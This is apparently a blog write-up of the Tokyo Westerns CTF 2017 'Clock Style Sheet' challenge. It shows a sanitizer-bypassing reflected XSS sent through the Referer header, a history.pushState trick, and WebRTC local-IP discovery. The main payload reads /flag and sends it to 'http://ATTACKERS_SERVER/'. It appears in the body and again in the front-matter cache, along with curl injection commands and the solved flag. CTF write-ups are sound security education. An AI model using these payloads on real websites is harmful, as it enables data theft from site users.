 ```yaml
---
title: Tokyo Westerns CTF 2017 – Clock Style Sheet writeup
author: tyage
type: post
date: 2017-09-05T01:34:28+00:00
url: /?p=1043
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:474:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</p></div>
    ";i:2;s:514:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</p></div>
    ";i:3;s:1008:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
    &lt;/script&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
    &lt;/script&gt;</p></div>
    ";i:4;s:1018:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://192.168.0.4/refresh'; // this line changed
    &lt;/script&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://192.168.0.4/refresh'; // this line changed
    &lt;/script&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="http://css.chal.ctf.westerns.tokyo/">http://css.chal.ctf.westerns.tokyo/</a></p>
<p>Provided source code:<br />
<a href="https://twctf2017.azureedge.net/attachments/proxy.py-6cac125d5b78cd89658bacf820c439e9c964bad1feedb8a97e4396fe2bd3434d">proxy.py</a><br />
<a href="https://twctf2017.azureedge.net/attachments/sanitizer.py-39beede4e84efe18734390619ac0d6a14e978aa90fac7f4bae7b6c6a17d108ff">sanitizer.py</a></p>
<p>There are 4 pages: /, /refresh, /chrowler, /flag.</p>
<p>When we access /flag, it responses <code>only local IP is allowed. (your IP: 110.3.193.114)</code>.<br />
So, we should use /chrowler (crawler using Chrome) to get the content in /flag.</p>
<h2>Find XSS</h2>
<p>Next, we search XSS and found /refresh has it. (We found the vulnerability when browsing with w3m)<br />
In this page, user will be redirected to the page where he or she is (which represented by Referer header).</p>
<p><code>curl -H 'Referer: blahblahblah"><' http://css.chal.ctf.westerns.tokyo/refresh</code></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
&lt;html&gt;
  &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</pre></td></tr></table></div>

<p>And the Referer is sanitized with <code>htmlsanitize</code> but it is bypassed as below:</p>
<p><code>curl -H 'Referer: "&gt;&lt;sona=cript&gt;alert()&lt;/sona=cript&gt;' http://css.chal.ctf.westerns.tokyo/refresh</code></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
&lt;html&gt;
  &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</pre></td></tr></table></div>

<h2>Exploit XSS</h2>
<p>In proxy which is used by crawler, <code>urlsanitize</code> is used.<br />
Crawler can not access to <code>http://attacker/?"&gt;&lt;script&gt;alert()&lt;/script&gt;</code>.<br />
So another technique is required to exploit XSS.</p>
<p>We use <code>history.pushState</code> to set attack code in Referer.</p>
<p>After crawler access the page below, it sends the contents of /flag.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
payload = `&quot;&gt;&lt;scrona=ipt&gt;
getFlag = async () =&gt; {
  content = await fetch('/flag');
  await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
};
getFlag()
&lt;/scrona=ipt&gt;
`;
history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
&lt;/script&gt;</pre></td></tr></table></div>

<h2>Local IP Detection</h2>
<p>But the content which is send by crawler is: <code>only local IP is allowed. (your IP: 104.215.63.152)</code></p>
<p>What to do next?<br />
Access to localhost of crawler? No.</p>
<p>After some trials, we tried to detect local IP address of crawler and web server with WebRTC.<br />
( WebRTC is useful technique to detect local IP address: <a href="https://github.com/diafygi/webrtc-ips">https://github.com/diafygi/webrtc-ips</a> )</p>
<p>It turns out that crawler is <code>192.168.0.5</code> and web server is <code>192.168.0.4</code>.</p>
<p>We fixed the attack code.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
payload = `&quot;&gt;&lt;scrona=ipt&gt;
getFlag = async () =&gt; {
  content = await fetch('/flag');
  await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
};
getFlag()
&lt;/scrona=ipt&gt;
`;
history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
location.href = 'http://192.168.0.4/refresh'; // this line changed
&lt;/script&gt;</pre></td></tr></table></div>

<p>And finally we got flag!</p>
<p><code>TWCTF{cl0ck-cr4ck-c1ick}</code></p>
